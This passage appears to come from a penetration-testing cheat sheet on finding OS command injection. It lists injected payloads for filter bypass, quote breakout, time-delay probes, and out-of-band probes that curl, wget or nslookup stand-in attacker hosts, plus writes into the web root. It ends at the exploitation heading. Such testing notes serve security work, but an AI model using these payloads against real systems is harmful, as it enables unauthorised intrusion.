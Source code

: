     
    - **Testing with injected echo commands**
      - Unix: `& echo OSCOMMANDINJECTTEST &`
      - Windows: `& echo OSCOMMANDINJECTTEST &`
      - Looking for the string "OSCOMMANDINJECTTEST" in the response
      - Example: `https://example.com/ping?host=8.8.8.8 & echo OSCOMMANDINJECTTEST &`
    
    - **Special character escaping sequences**
      - Test bypassing character filtering:
        - URL encoding: `%26%20ls%20-la`
        - Double URL encoding: `%2526%2520ls%2520-la`
        - Unicode variations: `＆ ls -la`
        - Mixed encoding: `%26 ls -la`
        - Line feeds: `%0A ls -la`
    
    - **Breaking out of quoted contexts**
      - If input is inserted within quotes:
        - Break out of single quotes: `' ; ls -la ; '`
        - Break out of double quotes: `" ; ls -la ; "`
        - Example: `https://example.com/ping?host='8.8.8.8' ; ls -la ; '`
  
  - **Blind detection techniques**
    
    - **Using time delays**
      - Unix payloads:
        - `& sleep 10 &`
        - `& ping -c 10 127.0.0.1 &`
        - ``` ` sleep 10 ` ```
        - `|| sleep 10 ||`
      - Windows payloads:
        - `& ping -n 10 127.0.0.1 &`
        - `|| timeout 10 ||`
      - If the application takes exactly the specified delay to respond, command injection likely exists
      - Example: `https://example.com/ping?host=8.8.8.8 & sleep 10 &`
    
    - **Out-of-band (OAST) techniques**
      - DNS-based detection:
        - `& nslookup uniqueid.burpcollaborator.net &`
        - `& dig uniqueid.attacker-server.com &`
        - ``` ` curl uniqueid.attacker-server.com ` ```
      - HTTP-based detection:
        - `& curl http://uniqueid.attacker-server.com &`
        - `& wget http://uniqueid.attacker-server.com &`
      - Requires monitoring a controlled domain for incoming connections
      - Example: `https://example.com/ping?host=8.8.8.8 & nslookup xyz123.attacker.com &`
    
    - **File creation and retrieval**
      - Create a file in a retrievable directory:
        - `& echo TEST > /var/www/html/test.txt &`
        - `& echo TEST > C:\inetpub\wwwroot\test.txt &`
      - Then attempt to retrieve the file via browser:
        - `https://example.com/test.txt`
      - Example: `https://example.com/ping?host=8.8.8.8 & echo pwned > /var/www/html/proof.txt &`

- **Exploiting OS command injection**
  